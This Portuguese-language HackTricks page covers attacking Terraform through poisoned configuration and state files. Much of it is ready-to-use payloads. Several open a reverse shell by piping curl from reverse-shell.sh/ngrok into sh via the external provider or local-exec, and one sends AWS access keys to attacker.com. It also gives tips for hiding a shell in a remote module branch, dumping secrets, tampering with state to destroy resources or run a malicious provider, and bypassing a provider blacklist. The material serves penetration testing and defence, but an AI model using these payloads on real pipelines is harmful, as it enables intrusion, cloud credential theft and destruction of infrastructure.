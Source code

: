 # Segurança do Terraform

<details>

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações Básicas

[A partir da documentação:](https://developer.hashicorp.com/terraform/intro)

O HashiCorp Terraform é uma ferramenta de **infraestrutura como código** que permite definir recursos **em nuvem e locais** em arquivos de configuração legíveis por humanos que podem ser versionados, reutilizados e compartilhados. Você pode então usar um fluxo de trabalho consistente para provisionar e gerenciar toda a sua infraestrutura ao longo de seu ciclo de vida. O Terraform pode gerenciar componentes de baixo nível como computação, armazenamento e recursos de rede, bem como componentes de alto nível como entradas DNS e recursos de SaaS.

### Como o Terraform funciona?

O Terraform cria e gerencia recursos em plataformas de nuvem e outros serviços por meio de suas interfaces de programação de aplicativos (APIs). Os provedores permitem que o Terraform trabalhe com praticamente qualquer plataforma ou serviço com uma API acessível.

![](<../.gitbook/assets/image (177).png>)

A HashiCorp e a comunidade do Terraform já escreveram **mais de 1700 provedores** para gerenciar milhares de tipos diferentes de recursos e serviços, e esse número continua a crescer. Você pode encontrar todos os provedores publicamente disponíveis no [Terraform Registry](https://registry.terraform.io/), incluindo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog e muitos outros.

O fluxo de trabalho principal do Terraform consiste em três etapas:

* **Escrever:** Você define recursos, que podem estar em vários provedores de nuvem e serviços. Por exemplo, você pode criar uma configuração para implantar um aplicativo em máquinas virtuais em uma rede Virtual Private Cloud (VPC) com grupos de segurança e um balanceador de carga.
* **Planejar:** O Terraform cria um plano de execução descrevendo a infraestrutura que será criada, atualizada ou destruída com base na infraestrutura existente e em sua configuração.
* **Aplicar:** Após aprovação, o Terraform executa as operações propostas na ordem correta, respeitando quaisquer dependências de recursos. Por exemplo, se você atualizar as propriedades de uma VPC e alterar o número de máquinas virtuais nessa VPC, o Terraform recriará a VPC antes de dimensionar as máquinas virtuais.

![](<../.gitbook/assets/image (215).png>)

## Laboratório do Terraform

Apenas instale o terraform em seu computador.

Aqui você tem um [guia](https://learn.hashicorp.com/tutorials/terraform/install-cli) e aqui você tem a [melhor maneira de baixar o terraform](https://www.terraform.io/downloads).

## RCE no Terraform

O Terraform **não possui uma plataforma expondo uma página da web ou um serviço de rede** que podemos enumerar, portanto, a única maneira de comprometer o terraform é **ser capaz de adicionar/modificar arquivos de configuração do terraform**.

No entanto, o terraform é um **componente muito sensível** para comprometer porque ele terá **acesso privilegiado** a diferentes locais para funcionar corretamente.

A principal maneira para um atacante ser capaz de comprometer o sistema onde o terraform está sendo executado é **comprometer o repositório que armazena as configurações do terraform**, porque em algum momento elas serão **interpretadas**.

Na verdade, existem soluções por aí que **executam automaticamente o terraform plan/apply após a criação de um PR**, como o **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Se você for capaz de comprometer um arquivo terraform, existem diferentes maneiras de realizar RCE quando alguém executar `terraform plan` ou `terraform apply`.

### Terraform plan

O `terraform plan` é o **comando mais usado** no terraform e desenvolvedores/soluções que usam o terraform o chamam o tempo todo, então a **maneira mais fácil de obter RCE** é garantir que você envenene um arquivo de configuração do terraform que executará comandos arbitrários em um `terraform plan`.

#### Usando um provedor externo

O Terraform oferece o provedor [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), que fornece uma maneira de interface entre o Terraform e programas externos. Você pode usar o recurso de dados `external` para executar código arbitrário durante um `plan`.

Injetar em um arquivo de configuração do terraform algo como o seguinte executará um shell reverso ao executar `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Utilizando um provedor personalizado

Um atacante poderia enviar um [provedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) para o [Terraform Registry](https://registry.terraform.io/) e então adicioná-lo ao código do Terraform em um ramo de funcionalidade ([exemplo daqui](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
O provedor é baixado no `init` e executará o código malicioso quando o `plan` for executado

Você pode encontrar um exemplo em [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando uma referência externa

Ambas as opções mencionadas são úteis, mas não muito furtivas (a segunda é mais furtiva, mas mais complexa do que a primeira). Você pode realizar esse ataque de uma maneira ainda mais **furtiva**, seguindo estas sugestões:

* Em vez de adicionar o rev shell diretamente no arquivo terraform, você pode **carregar um recurso externo** que contenha o rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Pode encontrar o código rev shell em [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* No recurso externo, use o recurso **ref** para ocultar o **código rev shell do terraform em um branch** dentro do repositório, algo como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Aplicar Terraform

O Terraform apply será executado para aplicar todas as alterações, você também pode abusar dele para obter RCE injetando **um arquivo Terraform malicioso com** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Você só precisa garantir que algum payload como os seguintes termine no arquivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Siga as **sugestões da técnica anterior** para realizar esse ataque de uma maneira **mais furtiva usando referências externas**.

## Despejo de Segredos

Você pode ter **valores secretos usados pelo terraform despejados** executando `terraform apply` adicionando ao arquivo terraform algo como:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Abusando dos Arquivos de Estado do Terraform

No caso de ter acesso de escrita aos arquivos de estado do terraform, mas não poder alterar o código do terraform, [**esta pesquisa**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) oferece algumas opções interessantes para aproveitar o arquivo:

### Excluindo recursos <a href="#deleting-resources" id="deleting-resources"></a>

Existem 2 maneiras de destruir recursos:

1. **Inserir um recurso com um nome aleatório no arquivo de estado apontando para o recurso real a ser destruído**

Como o terraform verá que o recurso não deveria existir, ele o destruirá (seguindo o ID do recurso real indicado). Exemplo da página anterior:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Modificar o recurso a ser excluído de forma que não seja possível atualizá-lo (assim ele será excluído e recriado)**

Para uma instância EC2, modificar o tipo da instância é suficiente para fazer o terraform excluí-la e recriá-la.

### RCE

Também é possível [criar um provedor personalizado](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) e simplesmente substituir um dos provedores no arquivo de estado do terraform pelo malicioso ou adicionar um recurso vazio com o provedor malicioso. Exemplo da pesquisa original:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Substituir provedor na lista negra

No caso de encontrar uma situação em que `hashicorp/external` foi colocado na lista negra, você pode re-implementar o provedor `external` fazendo o seguinte. Observação: Usamos um fork do provedor externo publicado por https://registry.terraform.io/providers/nazarewk/external/latest. Você também pode publicar seu próprio fork ou re-implementação.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Então você pode usar `external` como de costume.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Ferramentas de Auditoria

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análise estática do seu código terraform para identificar potenciais configurações incorretas.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan é um analisador de código estático para Infraestrutura como Código.

## Referências

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
